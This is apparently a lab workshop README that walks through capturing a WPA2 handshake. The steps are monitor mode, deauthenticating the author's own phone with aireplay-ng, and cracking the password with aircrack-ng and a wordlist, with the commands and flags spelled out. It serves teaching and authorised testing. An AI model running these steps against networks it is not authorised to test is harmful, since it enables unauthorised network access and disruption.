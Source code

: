 # Wi\-Fi Hacking Workshop

Summary: I will be gathering the Access Point MAC address and MAC address of my phone. I will then 
send 10 deauthentication packets which will cause my phone to disconnect and reauthenticate to the Access Point. We then capture the authentication prcoess save it locally and crack the password

![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

if using the TPLink TL-WN823N follow this adapter setup otherwise you can skip this section

link: [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

enter these commands in the terminal:

 * `sudo apt-get update  `

 * `sudo apt-get install linux\-headers\-$\(uname \-r\)  `

 * `git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)  `

 * `cd rtl8812au  `

 * `make `

 * `sudo insmod 8812au.ko `

 * `sudo cp 8812au.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless `

 * `sudo depmod `

 * `sudo apt-get install build-essential dkms `

 * `sudo make dkms_install `

 * `echo 8192eu | sudo tee -a /etc/modules `

### Adapter Setup

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

 * `sudo airmon-ng check kill ` checks for conflicting processes and kills them. This however will result in loss of internet for the VM, can be solved by restarting.

 * `iwconfig   `shows the adapter names. In my case wlan0 is the wireless adapter.

 * `sudo airmon-ng start wlan 0 ` - Starts the wireless adapter in monitor mode.

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

 * `sudo airodump-ng -c 11 wlan0 ` - discovers access points on channel 11 using wlan0

BSSID is the access point MAC address of the router. In this case we are looking at the BSSID for CyberSec

![](img/WifiHackingWorkshop4.png)



### Discovering devices

The MAC address of 0C:8D:CA:A6:94:8D is my phone and that is where the deauthentication packets are getting sent.

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

 * `sudo airodump-ng -c 11 --bssid B0-95-75-5C-3B-94 -w psk wlan0 ` -c specifices the channel number to scan, in this case channel 11. Bssid is the MAC address of the Access Point. -w writes the output to a file locally using the name after it, in this case psk.
This captures packets for the CyberSec accesspoint and saves it locally to a file named psk

 * `sudo aireplay-ng -0 10 -a B0:95:75:5C:3B:94 -c 0C:8D:CA:A6:93:8D wlan0 ` -0 sets the mode as deauth, alternatively can be set by using --deauth instead. "10" sets the number of deauthenication packets sent. -A is the Access Point MAC address. -C is the client MAC address. wlan0 is the interface the command is being used on
  
This sends 10 deauthentication packets to my phone which will disconnect from the Access Point and automatically reconnect. The reauthentication process for the WPA2 handshake is captured and saved locally.

![](img/WifiHackingWorkshop6.png)

### Cracking Password
Using the previous wpa2 handshake capture we can brute force the password using a passwordlist. I created one called passwordlist with the password of Password1 in it for lab demostration purpose. But Kali has default wordlists in the /usr/share/wordlists directory

 * `aircrack-ng -w passwordlist.txt psk-02.cap `- This is what is used to crack the password.

![](img/WifiHackingWorkshop7.png)

